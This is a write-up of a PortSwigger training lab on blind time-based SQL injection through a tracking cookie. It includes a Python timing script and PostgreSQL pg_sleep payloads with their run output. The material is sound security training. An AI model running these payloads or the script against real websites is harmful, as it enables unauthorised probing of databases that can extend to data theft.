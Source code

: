 # Blind SQL injection with time delays | Dec 9, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays), you'll learn: Blind SQL injection with time delays! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209022117.png)

**Tracking cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209022147.png)

**In the previous labs, we found that there is a blind SQL injection vulnerability in the tracking cookie.**

**For the sake of automation, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from time import time
import urllib.parse

def main():
	url = 'https://0a940002030b0daec0a4e9a00011002f.web-security-academy.net/'

	payload = """PAYLOAD_HERE"""
	finalPayload = urllib.parse.quote(payload)

	cookie = {
		'session': 'YOUR_SESSIONID',
		'TrackingId': finalPayload
	}

	startTime = time()
	requests.get(url, cookies=cookie)
	endTime = time()
	finalTime = endTime - startTime

	if finalTime >= 10:
		print(f'[+] Payload triggered, slept for {finalTime:.2f}s')
	else:
		print(f'[-] Payload didn\'t trigger, slept for {finalTime:.2f}s')

if __name__ == '__main__':
	main()
```

**To trigger a Time-Based SQL injection, we use the following payloads:** (From [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet))

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209023003.png)

**After some fumbling around, I found PostgreSQL time delay payload works:**
```py
# Payload 1:
payload = """';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""

# Payload 2:
payload = """';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
```

```
# Payload 1:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-13]
└─# python3 exploit.py
[+] Payload triggered, slept for 11.27s

# Payload 2:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-13]
└─# python3 exploit.py
[-] Payload didn't trigger, slept for 0.92s
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020221209023126.png)

# What we've learned:

1. Blind SQL injection with time delays